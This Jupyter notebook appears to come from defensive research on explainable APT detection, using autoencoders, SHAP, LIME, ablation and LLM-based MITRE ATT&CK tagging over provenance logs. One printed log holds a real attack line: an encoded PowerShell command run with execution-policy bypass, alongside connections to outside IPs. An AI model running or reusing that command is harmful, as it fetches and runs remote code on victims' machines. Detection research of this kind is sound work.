

In [14]:
# ==========================================
# CELL 6: Generate SHAP Tables and Plots for Selected Anomalies
# ==========================================
import matplotlib.pyplot as plt
import pandas as pd
import numpy as np
from sklearn.feature_extraction.text import TfidfVectorizer

print("=== GENERATING SHAP TABLES & PLOTS FOR SELECTED ANOMALIES ===")

# [CRITICAL FIX] Loop through the dictionary created in Cell 5 to use your chosen indices!
for performer, idx in selected_anomaly_indices.items():
    print("\n" + "█"*70)
    print(f"🔍 ANALYZING TOP ANOMALY FOR: {performer.upper()} (Test Index: {idx})")
    print("█"*70)
    
    # 1. REBUILD EXACT VOCABULARY
    # We must recreate the TF-IDF vectorizer for this specific performer 
    # to ensure the SHAP indices map to the correct words.
    df = master_text_data[performer]["ProcessAll"]
    text_col = 'sentence' if 'sentence' in df.columns else 'text'
    label_col = 'label' if 'label' in df.columns else 'y'
    df = df.dropna(subset=[text_col]).reset_index(drop=True)
    
    normal_df = df[df[label_col] == 0]
    train_size = int(0.8 * len(normal_df))
    train_texts = normal_df[text_col].tolist()[:train_size]
    test_texts = all_performers_test_texts[performer]
    
    vectorizer = TfidfVectorizer(max_features=None)
    vectorizer.fit(train_texts + test_texts)
    tokens = np.array(vectorizer.get_feature_names_out())
    
    # 2. GRAB SPECIFIC SHAP DATA
    errors = all_performers_errors[performer]
    shap_vals = all_performers_shap_values[performer]
    
    # DeepExplainer can return a list or a raw array depending on the PyTorch version
    if isinstance(shap_vals, list):
        importance = shap_vals[0][idx]
    else:
        importance = shap_vals[idx]
        
    # Force the importance array to be completely flat (1D) for Pandas
    importance = np.array(importance).flatten()
        
    # 3. IDENTIFY POSITIVE DRIVERS (Words that drove the error up)
    i = np.where(importance > 0)[0]
    ii = i[np.argsort(importance[i])[::-1]]
    
    if len(ii) == 0:
        print(f" -> No positive SHAP drivers found for {performer}. Highly unusual!")
        continue
        
    top_importances = importance[ii][:15]
    top_tokens = tokens[ii][:15]
    
    # --- 4. PRINT SUPERVISOR'S TABLE ---
    feature_table = pd.DataFrame({
        "Token (Feature Name)": top_tokens,
        "SHAP Value (Impact)": top_importances
    })
    feature_table["SHAP Value (Impact)"] = feature_table["SHAP Value (Impact)"].apply(lambda x: f"+{x:.6f}")

    print(f"\nTop SHAP Drivers for Test Index {idx}:")
    print(feature_table.to_string(index=False))
    print("-" * 70)

    # --- 5. PLOT SUPERVISOR'S GRAPH ---
    plt.figure(figsize=(10, 8))
    
    # Reverse so highest impact is at the top
    plt.barh(range(top_importances[::-1].shape[0]), top_importances[::-1], color='#005a9b')
    plt.yticks(range(top_importances[::-1].shape[0]), top_tokens[::-1], fontsize=12) 
    plt.xlabel("SHAP Value (Impact on Reconstruction Error)", fontsize=12, fontweight='bold')
    plt.title(f"[{performer.upper()}] TF-IDF Top Anomaly (Index {idx})\nReconstruction Loss: {errors[idx]:.4f}", fontsize=14, fontweight='bold')
    plt.axvline(0, color='black', linewidth=0.8)
    plt.grid(axis='x', linestyle='--', alpha=0.3)

    plt.tight_layout()
    
    # Save a distinct image for each performer
    save_filename = f"tfidf_shap_anomaly_{performer}_test_sentence_{idx}.png"
    plt.savefig(save_filename, dpi=300)
    print(f" -> ✅ Plot successfully saved as '{save_filename}'")
    
    plt.show()
    plt.close() # Free up memory for the next performer's plot

###### Masking part and making a table based on the changes i the econstrction error and shap mean

In [15]:
# ==========================================
# CELL 9: Train Contriever AE & Setup SHAP (ALL PERFORMERS)
# ==========================================
from transformers import AutoTokenizer, AutoModel
import torch
import torch.nn as nn
import numpy as np
import shap

print("=== STARTING ABLATION STUDY: CONTRIEVER EMBEDDINGS ===")

# 1. Initialize Contriever Model (Only need to do this once outside the loop)
tokenizer = AutoTokenizer.from_pretrained("facebook/contriever")
embedder = AutoModel.from_pretrained("facebook/contriever").to(DEVICE)
embedder.eval()

# Helper function to batch encode the data
def get_contriever_emb_batch(text_list, batch_size=32):
    all_embs = []
    for i in range(0, len(text_list), batch_size):
        batch = text_list[i:i+batch_size]
        inputs = tokenizer(batch, padding=True, truncation=True, return_tensors="pt").to(DEVICE)
        with torch.inference_mode():
            outputs = embedder(**inputs)
            attention_mask = inputs['attention_mask'].unsqueeze(-1).float()
            sum_embeddings = torch.sum(outputs.last_hidden_state * attention_mask, dim=1)
            sum_mask = torch.clamp(attention_mask.sum(dim=1), min=1e-9)
            emb = sum_embeddings / sum_mask
            emb = torch.nn.functional.normalize(emb, p=2, dim=1)
            all_embs.append(emb.cpu().numpy())
    return np.vstack(all_embs)

# ==========================================
# INITIALIZE ALL 4 DICTIONARIES HERE
# ==========================================
all_performers_emb_shap_values = {}
all_performers_emb_errors = {}
all_performers_emb_models = {}         # Stores the PyTorch models for Cell 10
all_performers_emb_backgrounds = {}    # Stores the SHAP backgrounds for Cell 10

# Wrapper for DeepExplainer
class AnomalyScoreWrapper(nn.Module):
    def __init__(self, model):
        super().__init__()
        self.model = model
    def forward(self, x):
        reconstruction = self.model(x)
        return torch.mean((x - reconstruction) ** 2, dim=1, keepdim=True)

# Loop through our selected performers
for performer in selected_anomaly_indices.keys():
    print("\n" + "="*70)
    print(f"🔹 PROCESSING CONTRIEVER EMBEDDINGS FOR: {performer.upper()}")
    print("="*70)

    # A. REBUILD TRAIN/TEST TEXTS
    df = master_text_data[performer]["ProcessAll"]
    text_col = 'sentence' if 'sentence' in df.columns else 'text'
    label_col = 'label' if 'label' in df.columns else 'y'
    df = df.dropna(subset=[text_col]).reset_index(drop=True)
    
    normal_df = df[df[label_col] == 0]
    train_size = int(0.8 * len(normal_df))
    train_texts = normal_df[text_col].tolist()[:train_size]
    test_texts = all_performers_test_texts[performer]

    # B. GENERATE EMBEDDINGS
    print("1. Generating Contriever embeddings for Train and Test Sets...")
    X_train_emb = get_contriever_emb_batch(train_texts)
    X_test_emb = get_contriever_emb_batch(test_texts)

    # C. TRAIN ROBUST AUTOENCODER
    print("2. Training the 768-Dimension Robust Autoencoder...")
    input_dim_emb = 768 # Contriever's output dimension
    
    # [UPDATED] Using the RobustAE architecture defined earlier!
    autoencoder_emb = RobustAE(input_dim_emb).to(DEVICE)
    optimizer_emb = torch.optim.Adam(autoencoder_emb.parameters(), lr=0.001)
    
    # [UPDATED] Using L1 Loss (Mean Absolute Error) for robustness
    criterion_emb = nn.L1Loss()

    X_train_emb_tensor = torch.FloatTensor(X_train_emb).to(DEVICE)
    
    autoencoder_emb.train()
    epochs = 50
    batch_size = 32
    for epoch in range(epochs):
        permutation = torch.randperm(X_train_emb_tensor.size()[0])
        for i in range(0, X_train_emb_tensor.size()[0], batch_size):
            indices = permutation[i:i+batch_size]
            batch_x = X_train_emb_tensor[indices]
            
            optimizer_emb.zero_grad()
            reconstruction = autoencoder_emb(batch_x)
            loss = criterion_emb(reconstruction, batch_x)
            loss.backward()
            optimizer_emb.step()

    # D. CALCULATE ERRORS
    error_model = AnomalyScoreWrapper(autoencoder_emb).to(DEVICE)
    error_model.eval()
    
    test_tensor = torch.FloatTensor(X_test_emb).to(DEVICE)
    with torch.no_grad():
        all_errors_emb = error_model(test_tensor).cpu().numpy().flatten() 
        
    all_performers_emb_errors[performer] = all_errors_emb

    # E. FAST SHAP WITH DEEPEXPLAINER
    print("3. Calculating SHAP values on Test Set using DeepExplainer...")
    bg_limit_emb = min(100, len(X_train_emb))
    background_tensor = torch.FloatTensor(X_train_emb[:bg_limit_emb]).to(DEVICE)
    
    explainer_emb = shap.DeepExplainer(error_model, background_tensor)
    shap_values_emb = explainer_emb.shap_values(test_tensor)
    
    all_performers_emb_shap_values[performer] = shap_values_emb
    
    # ==========================================
    # SAVE THE MODELS FOR CELL 10
    # ==========================================
    all_performers_emb_models[performer] = error_model
    all_performers_emb_backgrounds[performer] = background_tensor
    
    print(f"✅ Contriever processing complete for {performer.upper()}!")

=== STARTING ABLATION STUDY: CONTRIEVER EMBEDDINGS ===


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\huggingface_hub\file_download.py:949: FutureWarning: `resume_download` is deprecated and will be removed in version 1.0.0. Downloads always resume when possible. If you want to force a new download, use `force_download=True`.
  warnings.warn(



🔹 PROCESSING CONTRIEVER EMBEDDINGS FOR: 5DIR
1. Generating Contriever embeddings for Train and Test Sets...
2. Training the 768-Dimension Robust Autoencoder...
3. Calculating SHAP values on Test Set using DeepExplainer...
✅ Contriever processing complete for 5DIR!

🔹 PROCESSING CONTRIEVER EMBEDDINGS FOR: CADETS
1. Generating Contriever embeddings for Train and Test Sets...
2. Training the 768-Dimension Robust Autoencoder...
3. Calculating SHAP values on Test Set using DeepExplainer...
✅ Contriever processing complete for CADETS!

🔹 PROCESSING CONTRIEVER EMBEDDINGS FOR: CLEARSCOPE
1. Generating Contriever embeddings for Train and Test Sets...
2. Training the 768-Dimension Robust Autoencoder...
3. Calculating SHAP values on Test Set using DeepExplainer...
✅ Contriever processing complete for CLEARSCOPE!

🔹 PROCESSING CONTRIEVER EMBEDDINGS FOR: THEIA
1. Generating Contriever embeddings for Train and Test Sets...
2. Training the 768-Dimension Robust Autoencoder...
3. Calculating SHAP valu

In [16]:
# ==========================================
# CELL 10: Automated Multi-Stage Ablation Study (Clean Deletion)
# ==========================================
import pandas as pd
import numpy as np
import torch
import shap
import re
from sklearn.feature_extraction.text import TfidfVectorizer
from transformers import AutoTokenizer, AutoModel

# 1. Initialize Contriever 
tokenizer = AutoTokenizer.from_pretrained("facebook/contriever")
embedder = AutoModel.from_pretrained("facebook/contriever").to(DEVICE)
embedder.eval()

def get_contriever_emb(text_input):
    # Handle single string input by wrapping in list
    if isinstance(text_input, str):
        text_input = [text_input]
        
    inputs = tokenizer(text_input, padding=True, truncation=True, return_tensors="pt").to(DEVICE)
    with torch.inference_mode():
        outputs = embedder(**inputs)
        attention_mask = inputs['attention_mask'].unsqueeze(-1).float()
        sum_embeddings = torch.sum(outputs.last_hidden_state * attention_mask, dim=1)
        sum_mask = torch.clamp(attention_mask.sum(dim=1), min=1e-9)
        emb = sum_embeddings / sum_mask
        emb = torch.nn.functional.normalize(emb, p=2, dim=1)
    return emb.cpu().numpy()

print("🚀 Starting Automated Ablation Study on Selected Anomalies...")
print("⏳ Calculating multi-stage evaluations...\n")

ablation_results = []

# Loop through the anomalies we selected in Cell 5
for performer, idx in selected_anomaly_indices.items():
    print(f"\n" + "-"*60)
    print(f"🔹 RUNNING ABLATION FOR: {performer.upper()} (Test Index: {idx})")
    print("-"*60)
    
    # --------------------------------------------------
    # A. REBUILD TF-IDF TO FIND THE TOP TOKENS
    # --------------------------------------------------
    df = master_text_data[performer]["ProcessAll"]
    text_col = 'sentence' if 'sentence' in df.columns else 'text'
    label_col = 'label' if 'label' in df.columns else 'y'
    df = df.dropna(subset=[text_col]).reset_index(drop=True)
    
    normal_df = df[df[label_col] == 0]
    train_size = int(0.8 * len(normal_df))
    train_texts = normal_df[text_col].tolist()[:train_size]
    test_texts = all_performers_test_texts[performer]
    
    vectorizer = TfidfVectorizer(max_features=None)
    vectorizer.fit(train_texts + test_texts)
    tokens = np.array(vectorizer.get_feature_names_out())
    
    # Extract the TF-IDF SHAP values for this specific log
    shap_vals_tfidf = all_performers_shap_values[performer]
    if isinstance(shap_vals_tfidf, list):
        importance = shap_vals_tfidf[0][idx]
    else:
        importance = shap_vals_tfidf[idx]
        
    importance = np.array(importance).flatten()
    
    # Sort and grab the top 2 positive drivers
    i = np.where(importance > 0)[0]
    sorted_indices = i[np.argsort(importance[i])[::-1]]
    
    if len(sorted_indices) < 2:
        print(f"[!] Not enough positive drivers found to ablate. Skipping.")
        continue
        
    word1 = tokens[sorted_indices[0]]
    word2 = tokens[sorted_indices[1]]
    
    print(f" -> Identifying Target 1: '{word1}'")
    print(f" -> Identifying Target 2: '{word2}'")
    
    original_text = test_texts[idx]
    
    # --------------------------------------------------
    # B. RETRIEVE MODELS FROM CELL 9
    # --------------------------------------------------
    error_model = all_performers_emb_models[performer]
    background_tensor = all_performers_emb_backgrounds[performer]
    explainer_emb = shap.DeepExplainer(error_model, background_tensor)
    
    # Helper function to run the ablation stages cleanly
    def evaluate_ablation(text, stage_name):
        # 1. Get Embedding
        emb = get_contriever_emb(text)
        emb_tensor = torch.FloatTensor(emb).to(DEVICE)
        
        # 2. Calculate Reconstruction Error
        with torch.no_grad():
            mse = error_model(emb_tensor).cpu().numpy().flatten()[0]
            
        # 3. Calculate SHAP Mean Impact
        shap_vals = explainer_emb.shap_values(emb_tensor)
        if isinstance(shap_vals, list):
            shap_vals = shap_vals[0]
            
        # [UPDATED] Use raw mean so we retain the negative signs for our table
        shap_mean = np.mean(shap_vals) 
        
        return {
            "Performer": performer.upper(),
            "Ablation Stage": stage_name,
            "Recon Error": mse,
            "SHAP Mean": shap_mean,
            "Text": text
        }

    # --------------------------------------------------
    # C. EXECUTE MULTI-STAGE ABLATION (Clean RegEx Deletion)
    # --------------------------------------------------
    # Stage 1: Original Log
    ablation_results.append(evaluate_ablation(original_text, "1. Original"))
    
    # Stage 2: Cleanly Remove 1st Token
    # \b ensures we match exact whole words. re.IGNORECASE handles capitalization differences.
    text_masked_1 = re.sub(r'\b' + re.escape(word1) + r'\b', '', original_text, flags=re.IGNORECASE)
    text_masked_1 = re.sub(r'\s+', ' ', text_masked_1).strip() # Clean up extra spaces
    ablation_results.append(evaluate_ablation(text_masked_1, f"2. Removed '{word1}'"))
    
    # Stage 3: Cleanly Remove 1st & 2nd Tokens
    text_masked_2 = re.sub(r'\b' + re.escape(word2) + r'\b', '', text_masked_1, flags=re.IGNORECASE)
    text_masked_2 = re.sub(r'\s+', ' ', text_masked_2).strip() # Clean up extra spaces
    ablation_results.append(evaluate_ablation(text_masked_2, f"3. Removed '{word1}', '{word2}'"))

# ==========================================
# REQUESTED TABLE OUTPUT
# ==========================================
df_results = pd.DataFrame(ablation_results)

# [UPDATED] Format for clean numeric viewing, forcing the + or - symbol with: :+.8f
df_results["Recon Error"] = df_results["Recon Error"].apply(lambda x: f"{x:.6f}")
df_results["SHAP Mean"] = df_results["SHAP Mean"].apply(lambda x: f"{x:+.8f}")

print("\n" + "="*100)
print("📊 ABLATION STUDY RESULTS: IMPACT OF REMOVING TOKENS ON RECONSTRUCTION & SHAP")
print("="*100)

# Print clean table (hiding the long text column for console output)
print(df_results[["Performer", "Ablation Stage", "Recon Error", "SHAP Mean"]].to_string(index=False))
print("="*100)

# Save full results including text
df_results.to_csv("ablation_study_results.csv", index=False)
print("✅ Saved full results (including text) to 'ablation_study_results.csv'")

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\huggingface_hub\file_download.py:949: FutureWarning: `resume_download` is deprecated and will be removed in version 1.0.0. Downloads always resume when possible. If you want to force a new download, use `force_download=True`.
  warnings.warn(


🚀 Starting Automated Ablation Study on Selected Anomalies...
⏳ Calculating multi-stage evaluations...


------------------------------------------------------------
🔹 RUNNING ABLATION FOR: 5DIR (Test Index: 2237)
------------------------------------------------------------
 -> Identifying Target 1: 'network'
 -> Identifying Target 2: 'bypass'

------------------------------------------------------------
🔹 RUNNING ABLATION FOR: CADETS (Test Index: 44926)
------------------------------------------------------------
 -> Identifying Target 1: 'test'
 -> Identifying Target 2: 'and'

------------------------------------------------------------
🔹 RUNNING ABLATION FOR: CLEARSCOPE (Test Index: 2423)
------------------------------------------------------------
 -> Identifying Target 1: '118'
 -> Identifying Target 2: '70'

------------------------------------------------------------
🔹 RUNNING ABLATION FOR: THEIA (Test Index: 55944)
------------------------------------------------------------
 ->

In [12]:
import pandas as pd

df = pd.DataFrame(pd.read_csv('ablation_study_results.csv'))

print(df)

     Performer                  Ablation Stage  Recon Error     SHAP Mean  \
0         5DIR                     1. Original     0.000152 -2.000000e-08   
1         5DIR            2. Removed 'network'     0.000174 -2.000000e-08   
2         5DIR  3. Removed 'network', 'bypass'     0.000178 -2.000000e-08   
3       CADETS                     1. Original     0.000144 -1.000000e-08   
4       CADETS                2. Removed 'and'     0.000335 -2.000000e-08   
5       CADETS     3. Removed 'and', 'network'     0.000401 -2.000000e-08   
6   CLEARSCOPE                     1. Original     0.000043 -1.000000e-08   
7   CLEARSCOPE            2. Removed 'network'     0.000121 -1.000000e-08   
8   CLEARSCOPE     3. Removed 'network', '111'     0.000119 -1.000000e-08   
9        THEIA                     1. Original     0.000122 -1.000000e-08   
10       THEIA                 2. Removed '80'     0.000141 -1.000000e-08   
11       THEIA      3. Removed '80', 'network'     0.000158 -1.000000e-08   

#### t-SNE vis

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\tqdm\auto.py:21: TqdmWarning: IProgress not found. Please update jupyter and ipywidgets. See https://ipywidgets.readthedocs.io/en/stable/user_install.html
  from .autonotebook import tqdm as notebook_tqdm


Booting Final XAI Pipeline & t-SNE Visualizer for facebook/contriever on CUDA...
------------------------------------------------------------

🎯 DATASET ACQUIRED: 5DIR - ProcessAll
--------------------------------------------------------------------------------
Dataset Evaluation Metrics:
   AUC-ROC : 0.9583
   nDCG    : 0.3887


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\huggingface_hub\file_download.py:949: FutureWarning: `resume_download` is deprecated and will be removed in version 1.0.0. Downloads always resume when possible. If you want to force a new download, use `force_download=True`.
  warnings.warn(



[Deep Analysis of Top-Ranked Anomaly]
Raw Log: Process has event bind and event check_file_attributes and event close and event connect and event create_object and event create_thread and event execute and event exit and event fcntl and event fork and executable \windows\system32\cmd.exe.1 and network 0 and network 208.75.117.5 and network 208.75.117.6 and network 80 and attribute powershell  -nop -ep bypass -encodedcommand kaboaguadwatae8aygbqaguaywb0acaatgblahqalgbxaguaygbdagwaaqblag4adaapac4azabvahcabgbsag8ayqbkagyaaqbsaguakaanaggadab0ahaaogavac8amgawadgalga3adualgaxadeanwauadualwb1ahaazabhahqazqauahaacwaxaccalaagaccaqwa6afwacabyag8azwbyageabqbkageadabhafwadqbwagqayqb0agualgbwahmamqanackaowagac4aiabdadoaxabcahaacgbvagcacgbhag0azabhahqayqbcafwadqbwagqayqb0agualgbwahmamqa7acaacabvahcazqbyagmayqb0acaalqbjacaamgawadgalga3adualgaxadeanwauadyaiaatahaaiaa4adaaiaataguaiabjag0azaauaguaeabl
Amplified Anomaly Score: 0.2744

[1] Running LIME...
   Top LIME Drivers (Sorted by Absolute Blast Rad




--------------------------------------------------------------------------------
Pipeline Complete.


In [2]:
import os
import pickle
import torch
import numpy as np
import shap
import requests
import torch.nn as nn
import matplotlib.pyplot as plt
import seaborn as sns
from sklearn.manifold import TSNE
from transformers import AutoTokenizer, AutoModel
from lime.lime_text import LimeTextExplainer
from sklearn.metrics import roc_auc_score, ndcg_score, dcg_score

# ==========================================
# 1. CONFIGURATION
# ==========================================
SPLIT_DIR = "final_train_test_split_contriever"  
MASTER_DATA_FILE = "all_data_with_sentences.pkl"  
MODEL_SAVE_DIR = "saved_weights_contriever"
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# [CONTRIEVER SPECIFIC CONFIG]
EMBEDDER_NAME = "facebook/contriever"
INPUT_DIM = 768    # CRITICAL: Contriever uses 768 dimensions
MSE_AMPLIFIER = 1000.0  

print(f"Booting Final XAI Pipeline & t-SNE Visualizer for {EMBEDDER_NAME} on {DEVICE.upper()}...")
print("-" * 60)

# ==========================================
# 2. AUTOENCODER & PIPELINE
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU(), nn.Linear(1024, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
    def forward(self, x): return self.decoder(self.encoder(x))

class APT_Explainer:
    def __init__(self, embedder_name, ae_model, device):
        self.device = device
        self.tokenizer = AutoTokenizer.from_pretrained(embedder_name)
        self.embedder = AutoModel.from_pretrained(embedder_name).to(self.device)
        self.embedder.eval()
        self.ae_model = ae_model.to(self.device)
        self.ae_model.eval()

    def predict_anomaly_score(self, text_list):
        if isinstance(text_list, np.ndarray): text_list = text_list.tolist()
        text_list = [str(t) if len(str(t).strip()) > 0 else "[PAD]" for t in text_list]

        batch_size = 16 
        all_errors = []
        
        for i in range(0, len(text_list), batch_size):
            inputs = self.tokenizer(text_list[i:i+batch_size], padding=True, truncation=True, max_length=128, return_tensors="pt").to(self.device)
            with torch.inference_mode():
                outputs = self.embedder(**inputs)
                
                # Attention-Weighted Mean Pooling
                token_embeddings = outputs.last_hidden_state
                attention_mask = inputs['attention_mask'].unsqueeze(-1).float()
                sum_embeddings = torch.sum(token_embeddings * attention_mask, dim=1)
                sum_mask = torch.clamp(attention_mask.sum(dim=1), min=1e-9)
                embeddings = sum_embeddings / sum_mask
                
                embeddings = torch.nn.functional.normalize(embeddings, p=2, dim=1)
                
                recon = self.ae_model(embeddings)
                errors = torch.mean((embeddings - recon) ** 2, dim=1) * MSE_AMPLIFIER
                all_errors.extend(errors.cpu().numpy())
                
        return np.array(all_errors)

def get_mitre_from_llm(raw_log, suspicious_word):
    prompt = f"""You are an expert cybersecurity threat hunter. 
An anomaly detection system flagged this system log as a potential APT attack: '{raw_log}'
A mathematical explainer identified the token '{suspicious_word}' as the primary driver of this anomaly.
Based on this token and the context of the log, identify the single most likely MITRE ATT&CK Tactic and Technique ID. 
Format your response exactly like this: [Technique ID] - [Technique Name]. Do not include any other text."""
    try:
        url = "http://localhost:11434/api/generate"
        payload = {"model": "llama3", "prompt": prompt, "stream": False, "temperature": 0.1}
        response = requests.post(url, json=payload, timeout=5)
        if response.status_code == 200:
            return response.json().get("response", "").strip()
        return "Unknown"
    except:
        return "Unknown"

# ==========================================
# 3. EXECUTION
# ==========================================
try:
    with open(MASTER_DATA_FILE, "rb") as f:
        master_text_data = pickle.load(f)
except FileNotFoundError:
    print(f"[!] CRITICAL ERROR: Could not find {MASTER_DATA_FILE}")
    exit()

performers = [p for p in os.listdir(SPLIT_DIR) if os.path.isdir(os.path.join(SPLIT_DIR, p)) and not p.startswith('.')]
found_target = False

for performer in performers:
    test_dir = os.path.join(SPLIT_DIR, performer, "test")
    if not os.path.exists(test_dir): continue
        
    files = [f for f in os.listdir(test_dir) if f.endswith('.pkl')]
    
    for file in files:
        context = file.replace('.pkl', '')
        weight_path = os.path.join(MODEL_SAVE_DIR, f"{performer}_{context}_Baseline.pth")
        
        if not os.path.exists(weight_path): continue
            
        with open(os.path.join(test_dir, file), 'rb') as f:
            pkg = pickle.load(f)
            X_test, y_test = pkg['X'], pkg['y']
            
        if len(np.unique(y_test)) < 2: continue 

        model = VanillaAE(INPUT_DIM).to(DEVICE)
        model.load_state_dict(torch.load(weight_path, map_location=DEVICE))
        model.eval()
        
        tensor_test = torch.FloatTensor(X_test).to(DEVICE)
        with torch.no_grad():
            recon = model(tensor_test)
            all_errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
            
        auc = roc_auc_score(y_test, all_errors)
        try:
            dcg = dcg_score([y_test], [all_errors])
            idcg = dcg_score([y_test], [y_test])
            ndcg = ndcg_score([y_test], [all_errors])
        except:
            dcg, idcg, ndcg = 0.0, 0.0, 0.0

        print("\n" + "="*80)
        print(f"🎯 DATASET ACQUIRED: {performer.upper()} - {context}")
        print("-" * 80)
        print(f"Dataset Evaluation Metrics:")
        print(f"   AUC-ROC : {auc:.4f}")
        print(f"   nDCG    : {ndcg:.4f}")
        print("="*80)

        try:
            df_text = master_text_data[performer][context]
            label_col = 'label' if 'label' in df_text.columns else 'y'
            text_col = 'sentence' if 'sentence' in df_text.columns else 'text'
            
            anomalies_df = df_text[df_text[label_col] == 1]
            if anomalies_df.empty: continue
            apt_logs_all = anomalies_df[text_col].tolist()
        except KeyError:
            continue

        pipeline = APT_Explainer(EMBEDDER_NAME, model, DEVICE)
        
        text_anomaly_scores = pipeline.predict_anomaly_score(apt_logs_all)
        worst_idx = np.argmax(text_anomaly_scores)
        target_log = apt_logs_all[worst_idx]
        target_score = text_anomaly_scores[worst_idx]
        
        print(f"\n[Deep Analysis of Top-Ranked Anomaly]")
        print(f"Raw Log: {target_log}")
        print(f"Amplified Anomaly Score: {target_score:.4f}\n")

        # --- LIME ---
        print("[1] Running LIME...")
        lime_explainer = LimeTextExplainer(class_names=['Normal', 'Anomaly']) 
        def lime_predict_wrapper(text_list):
            errs = pipeline.predict_anomaly_score(text_list)
            ptp = np.ptp(errs)
            probs = np.full_like(errs, 0.5) if ptp == 0 else 0.1 + 0.8 * ((errs - np.min(errs)) / ptp)
            return np.vstack((1 - probs, probs)).T
            
        lime_exp = lime_explainer.explain_instance(target_log, lime_predict_wrapper, num_features=5, num_samples=500)
        print("   Top LIME Drivers (Sorted by Absolute Blast Radius):")
        for word, weight in sorted(lime_exp.as_list(), key=lambda x: abs(x[1]), reverse=True):
            mitre = get_mitre_from_llm(target_log, word)
            sign = "+" if weight > 0 else ""
            print(f"      -> '{word}' (Impact: {sign}{weight:.4f}) | MITRE: {mitre}")

        # --- SHAP ---
        print("\n[2] Running SHAP...")
        official_mask = pipeline.tokenizer.mask_token or "[MASK]"
        masking_masker = shap.maskers.Text(pipeline.tokenizer, mask_token=official_mask)
        shap_explainer = shap.Explainer(pipeline.predict_anomaly_score, masking_masker)
        shap_values = shap_explainer([target_log], max_evals=200) 
        
        words, impact_scores = shap_values.data[0], shap_values.values[0]
        word_impacts = sorted(zip(words, impact_scores), key=lambda x: abs(x[1]), reverse=True)
        
        print("   Top SHAP Drivers (Sorted by Absolute Blast Radius):")
        for word, score in word_impacts[:5]:
            clean_word = word.strip()
            if len(clean_word) > 1:
                mitre = get_mitre_from_llm(target_log, clean_word)
                sign = "+" if score > 0 else ""
                print(f"      -> '{clean_word}' (Impact: {sign}{score:.4f}) | MITRE: {mitre}")

        found_target = True
        break 
        
    if found_target: break

# ==========================================
# 4. T-SNE VISUALIZATION
# ==========================================
if found_target:
